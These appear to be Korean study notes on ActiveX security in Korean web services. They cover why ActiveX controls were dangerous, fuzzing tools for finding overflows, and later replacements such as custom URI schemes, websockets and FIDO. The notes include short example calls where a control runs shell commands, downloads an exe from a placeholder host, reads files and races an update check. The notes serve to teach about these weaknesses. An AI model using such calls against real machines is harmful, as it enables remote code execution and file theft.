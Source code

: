 ActiveX
===

Active X = ole + com

internet explorer : 엑티브 엑스를 타 언어에서 실행시킬 수 있음

인자 전달 방식

	1. obj1.callmethod('hellsonic', 'ccc', 1);

	2.
		<object id = 'obj1' classid = '~'>
			<param ~>
			<param ~>
		</object>

		obj1.callmethod();

설계상 자바스크립트는 exe 를 이길 수 없음 <br>
=> js 만으로 커널단의 키보드 보안, 화면 보안을 할 수 없음

한구의 KI 기술을 무시할 수 없음, 굉장히 고려해야할 점이 많음
완전히 다른 방식으로 바꾼다는 것을 고려하지 못하는 이유이기도 함
암호화 모듈과 같은 것도 JS 로 포팅할 수 없음 -> activex 로 사용 (현재는 많이 대체됨 )

취약점이 존재하는 ActiveX 가 설치 된 PC <br>
-> 악성 URL 로 유도 개인 타겟을 이용한 공격

취약점이 존재하는 ActiveX 가 설치 된 PC <br>
-> 사용자들이 많이 방문하는 홈페이지의 iframe 을 통해 감염
PC <br>
-> A에서만 호출 되야 할 ActiveX 가 어디서든 호출 가능 : 가장 큰 문제 <br>
-> 악성 페이지에서 호출이 됬는지 정상 페이지에서 호출이 됬는지 분간이 어려움

2년전만 해도 active x 가 shell 을 실행할 수 있었음 :

    ViewerX.Execute('netstat -an');
    ViewerX.DOwnloadFromURL('https://blabla.com/a.exe', 'C:/a.exe');

편의를 위한 함수이지만, 취약점이 크게 발생

    ViewX.ReadFile('C:/read.txt');
파일을 읽을 수 있음 ( + write delete)
registry read write delete

서비스를 이용하는 다수의 보안 프로그램 설치를 요구 <br>
-> 설치하지 않으면 서비스를 이용하지 못하므로 모두 설치 해야됨
무조건 '예' 를 눌러 설치하는 것은 힘듬

race condition 발견도 가능

    ViewerX.CheckUpdate("http://www.com/a.exe');
    ViewerX.Run('a.exe');
checkupdate : tmp 파일에 떨군후 인증서와 같은 검사를 함 <br>
-> 삭제 run : 실행 <br>
 : 삭제와 실행이 동시 실행 , race condition

update url 이 언제 바뀔지 모르기 때문에,
*ViewerX.CheckUpdate('http://update.kr/viewer.ini');* 를 통해 정보를 받아와 업데이트 <br>
-> 자체 검사 루틴이 존재하지 않으면 위조시 확인할 수 없음

Fuzzing::ComRaider - DLL 불러와서 Fuzzing - BOF 외의 다른 취약점을 찾을 수 없음
AxMan - Java sciprt 로 구현, class id 에 object id 를 넣으면, 막 돌면서 bof 를 찾음 <br>
 : crash 를 내기만 할 뿐 로깅 기능을 하지 않음
dranzer - bof 밖에 못찾기는 하지만, exception 과 로깅 기능이 모두 존재 <br>
 : user interaction 이 불필요 - g 옵션을 통해 파일 떨궈 인풋으로 주면 알아서 돔

COM 기반이기 떄문에 Method 주소가 직관적으로 보이지 않음
attach internet explorer 해서 dispcallfunction 에서 ecx 에 걸린놈이 함수 주소

천송이 코트 사건으로 이해 active x 의무 설치 규정을 폐지

active x 이후에는 exe 파일을 배포 <br>
-> 사용자는 수동으로 설치 해결된 문제 : 오픈앱을 사용 <br>
-> 브라우져 상관 없이 가능
하지만, OS 를 넘지는 못함

exe 와 explorer 의 통신 : 자체 웹 서버, custom uri scheme, web socket 기술로 통신

custom uri scheme : registry : root : uri shceme name : shell : open : command
kakaotalk://url ~&param=
이라면 root 아래 kakatalk 폴더에서 command 를 타고 가 실행하게 됨
but 사용자 마음대로 직접 호출이 가능하고, 버그가 발생할 수 있음
결과값을 받아오기 매우 힘듬

web socket : corss-origin resource sharing 을 활용한 IE 와 localhost 의 웹서버와 통신<br>
크로스 도메인이라는 문제 발생 <br>
\+ 해킹할 때 web socket 으로 보안 중지를 요청하면 무용지물
JSONP 를 이용한 통신도 가능 <br>
\+ http5 웹소켓을 통한 통신도 가능

exe 파일 안했으면 좋겠다 <br>
js 랑 full html5 로 만들었으면 좋겠다 <br>
-> 두 기술을 이용해 공인인증서 관리 가상 키보드 구현 <br>
-> 익스플로러가 html 과 js 만 지원한다면 가능 <br>
-> 공인인증서 관리 : 로컬 스토리지 (브라우져 내부 저장소) <br>
-> 가상 키보드 : full js 를 사용하여 구현 <br>
but 키보드나 자바 스크립트만으로는 키보드 보안을 할 수 없다.  <br>
(js 로 user level 프로그램을 관리할 수 없음 )

스마트폰을 이용한 확인 : FIDO fast identity online 이용
PIN 인증서 지문 안면 홍채  <br>
-> 서버 -> 간편인증

온라인 상품 구매  <br>
-> QR 코드 스캔을 통한 스마트폰 인증  <br>
-> 등록된 카드로 결제 <br>
편리함 증가  <br>
-> 보안성 감소
